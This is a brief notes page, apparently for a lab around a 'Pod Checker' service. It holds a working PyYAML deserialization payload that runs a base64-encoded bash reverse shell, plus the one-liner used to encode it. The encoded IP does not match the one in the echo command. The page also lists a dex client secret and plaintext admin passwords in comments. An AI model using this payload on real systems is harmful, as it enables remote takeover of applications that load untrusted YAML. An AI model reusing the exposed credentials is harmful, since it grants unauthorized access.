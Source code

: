 ## pyaml reverse shell

```bash
echo "/bin/bash -i >& /dev/tcp/10.32.0.19/9090 0>&1" | base64
```

```python
!!python/object/new:os.system [ echo "L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEyNy4wLjAuMS85MDkwIDA+JjEK" | base64 -d | bash ]
```

# dex public url

```bash
curl http://localhost:5556/dex/.well-known/openid-configuration
```


# dex client passwords

```yaml
staticClients:
  - id: pod-checker
    redirectURIs:
      - 'http://127.0.0.1:8080/callback'
    name: 'Pod Checker'
    # base64 podcheckerauth
    secret: cG9kY2hlY2tlcmF1dGgK
```

# dex staticPasswords

```yaml
- email: "admin@podchecker.local"
    # $(echo "the-keys-to-the-kingdom" | htpasswd -BinC 10 admin | cut -d: -f2)

- email: "db@podchecker.local"
    # $(echo "administer-the-secret-store-247!" | htpasswd -BinC 10 admin | cut -d: -f2)
```